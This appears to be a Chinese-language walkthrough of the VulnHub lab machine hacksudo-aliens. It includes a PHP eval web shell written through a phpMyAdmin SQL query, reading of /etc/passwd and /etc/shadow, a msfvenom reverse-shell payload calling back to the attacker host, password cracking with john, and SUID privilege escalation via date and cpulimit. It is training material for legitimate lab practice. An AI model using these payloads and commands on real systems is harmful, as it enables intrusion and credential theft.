# 目标

Find the **user.txt** and **root.txt** flag.

---

# 1.信息收集
## 1.1 主机发现
```shell
nmap -sn 192.168.64.0/24 --max-rate 1000
```

靶机的IP地址是：`192.168.64.14`

## 1.2 端口扫描
**使用TCP SYN扫描**
```shell
nmap -sS 192.168.64.14 -p - --max-rate 1000 -oA nmap-scan/syn
```


**使用UDP扫描**
```shell
nmap -sU 192.168.64.14 --top-ports 100 --max-rate 1000 -oA nmap-scan/udp
```


详细扫描已经扫描出来的端口
```shell
nmap -sV -sC -O -p22,80,9000 192.168.64.14 --max-rate 10000 -oA nmap-scan/port
```


## 1.3 浏览器查看
**访问`http://192.168.64.14:80`**

这是一个记录外星人目击记录的网站，看到有搜索框，考虑可能有SQl注入。不过好像不对，数据全部都在data.js这个文件夹中。🌚

**查看一下，有没有可能是某种CMS**
```shell
whatweb http://192.168.64.14
```

不是什么CMS系统。🌚

**扫描网站目录**
```shell
ffuf -u http://192.168.64.14:80/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -e .zip,.txt,.php,.html,.bak -t 20 -p 0.1-0.4 -rate 20 -ac
ffuf -u http://192.168.64.14:80/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -e .zip,.txt,.php,.html,.bak -t 20 -p 0.1-0.4 -rate 20 -ac
```
使用2个字典 (*directory-list-2.3-small.txt*, *common.txt*) 都扫描一下，得到结果如下：


扫描出来有几个文件夹与几个文件。

**访问一下`http://192.168.64.14/index.html`**
这个就是上面的初始界面。

**访问一下`http://192.168.64.14/game.html`**

一张图片，后面是动态的类似雪花的动画。文字是：*ALIEN INNASION PRESS FIRE TO START PLAYING*

**访问一下`http://192.168.64.14/images`**

这里是放图片的一个文件夹，里面有一张图片 *sprites.png* ，会不会有图片隐写，尝试一下：
```shell
strings sprites.png
```
没发现什么信息。🌚

**访问一下`http://192.168.64.14/backup`**

这个文件夹应该是网站存放备份文件的地方，里面有一个 *mysql.bak* 的文件，下载下来看看。*mysql.bak*文件的内容如下：
```shell
#!/bin/bash

# Specify which database is to be backed up
db_name=""

# Set the website which this database relates to
website="localhost"

# Database credentials
user="vishal"
password="hacksudo"
host="localhost"

# How many days would you like to keep files for?
days="30"

######################################################
##### EDITING BELOW MAY CAUSE UNEXPECTED RESULTS #####
######################################################

# Set the date
date=$(date +"%Y%m%d-%H%M")

# Set the location of where backups will be stored
backup_location="/var/backups/mysql"

# Create the directory for the website if it doesn't already exist
mkdir -p ${backup_location}/${website}
# Append the database name with the date to the backup location
backup_full_name="${backup_location}/${website}/${db_name}-${date}.sql"

# Set default file permissions
umask 177

# Dump database into SQL file
mysqldump --lock-tables --user=$user --password=$password --host=$host $db_name > $backup_full_name

# Set a value to be used to find all backups with the same name
find_backup_name="${backup_location}/${website}/${db_name}-*.sql"
# Delete files older than the number of days defined
find $find_backup_name -mtime +$days -type f -delete
```
这应该是一个用来备份特定数据库的shell脚本，里面提供了一个mysql的用户名及对应密码。备份的目录在`/var/backups/mysql` 。

**访问`http://192.168.64.14:9000`**

这是一个管理员登陆窗口。尝试使用上面的账号与密码登陆。

---

# 2.进入系统

登陆成功：


**在下面可以执行sql语句**
- 查看当前用户文件读写权限：
    ```sql
    show variables like '%secure_file_prev%'
    ```
    显示为空白，说明有写入文件的权限。
- 写入php木马脚本：
    ```sql
    select '<?php @eval($_GET["cmd"]); ?>' into outfile '/var/www/html/kali.php'
    ```
这样就有任意代码执行了。

**读出/etc/passwd文件**
访问`http://192.168.64.14/kali.php?cmd=system('cat /etc/passwd');`，如下：
```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:108:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
pulse:x:109:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:112:121::/var/lib/saned:/usr/sbin/nologin
colord:x:113:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:114:123::/var/lib/geoclue:/usr/sbin/nologin
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
hacksudo:x:1000:1000:hacksudo,,,:/home/hacksudo:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:117:65534::/run/sshd:/usr/sbin/nologin
mysql:x:118:126:MySQL Server,,,:/nonexistent:/bin/false
```

**建立反弹连接**
使用msfvenom生成php反弹连接：
```shell
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.64.2 lport=1025 -e php/base64 -f raw -o reverse_tcp.php
```
再次利用前面的phpadmin，传入reverse_tcp.php:
```sql
select "<?php [reverse_tcp.php内容] ?>" into outfile '/var/www/html/tcp.php'
```
使用*msfconsole*的*exploit/multi/handler*来监听，然后访问 `http://192.168.64.14/tcp.php`:

成功建立连接。

---

# 3.系统提权

```shell
find / -perm -4000 -type f 2>/dev/null
```
显示如下：


去GTFOBins网站查找，发现date命令可以读取文件，于是尝试去读取/etc/shadow文件，用于破解hacksudo用户的密码：
```
/usr/bin/date -f /etc/shadow
```
将内容复制到*shadow.txt*中，提取内容到*shadow*
```shell
awk -F "'" '{print $2}' shadow.txt > shadow
```
使用john结合rockyou.txt来破解：
```shell
unshadow passwd shadow > mushadow.txt
john --wordlist=/usr/share/wordlists/rockyou.txt myshadow.txt
```
破解出来了一个用户`hacksudo`，密码为`aliens`. 直接使用ssh登陆这个用户.

查找一下具有suid权限的运行脚本：
```shell
find / -perm -4000 -type f 2>/dev/null
```
发现在自己的家目录下有一个`cpulimit`的文件。
去GTFOBins里面搜索：


可以直接提权：运行
```shell
./cpulimit -l 100 -f -- /bin/sh -p
```

提权成功。




---
---

# 硬件与软件平台
## 硬件
- Apple Macbook pro M1-Pro `32G 512G`
- `macOS 14.8.5`
- `UTM虚拟机平台`

## 软件
kali
- IP: `192.168.64.2`
- OS Realease: `debian 2025.4`
- `Arm64`

靶机hacksudo-aliens: 
- `https://www.vulnhub.com/entry/hacksudo-aliens,676/`

---

> 水平有限，有不足、错误之处欢迎指出。🧐